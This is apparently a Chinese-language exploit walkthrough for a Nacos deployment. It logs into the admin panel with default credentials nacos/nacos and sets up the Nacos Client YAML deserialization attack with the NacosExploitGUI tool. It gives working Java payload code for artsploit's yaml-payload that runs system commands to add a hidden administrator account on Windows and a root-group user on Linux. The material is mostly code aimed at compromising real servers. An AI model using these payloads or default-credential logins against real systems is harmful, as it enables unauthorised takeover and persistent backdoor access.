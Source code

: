 环境搭建：

```python
git clone https://github.com/charonlight/NacosExploitGUI.git
```

下载链接：https://github.com/charonlight/NacosExploitGUI/releases/download/v7.0/NacosExploitGUI_v4.0.jar

#### 漏洞复现



##### 环境准备

使用账号密码登录到后台，登陆后台http://172.30.12.6:8848/nacos

> nacos / nacos

![image-20240927113151834](https://image.201068.xyz/assets/37.微服务/image-20240927113151834.png)

![image-20240927115520575](https://image.201068.xyz/assets/37.微服务/image-20240927115520575.png)

![image-20240927115613237](https://image.201068.xyz/assets/37.微服务/image-20240927115613237.png)

准备打 `Nacos Client Yaml` 反序列化漏洞，

##### 修改 AwesomeScriptEngineFactory.java 文件

修改 `artsploit/yaml-payload` 制作一个恶意的 `yaml-payload.jar` 包。

只需要修改 `AwesomeScriptEngineFactory.java` 文件中的内容即可，此处建议直接添加个管理员账户：

###### windows

```JAVA
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("net user h0ny Admin123AKB48 /add");
        Runtime.getRuntime().exec("net localgroup administrators h0ny /add");
        Runtime.getRuntime().exec("calc");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

![image-20240927113423865](https://image.201068.xyz/assets/37.微服务/image-20240927113423865.png)

###### linux

```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("sudo useradd -m hacker -s /bin/bash;echo 'hacker:hacker123' | sudo chpasswd");
        Runtime.getRuntime().exec("usermod -g 0 hacker");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```
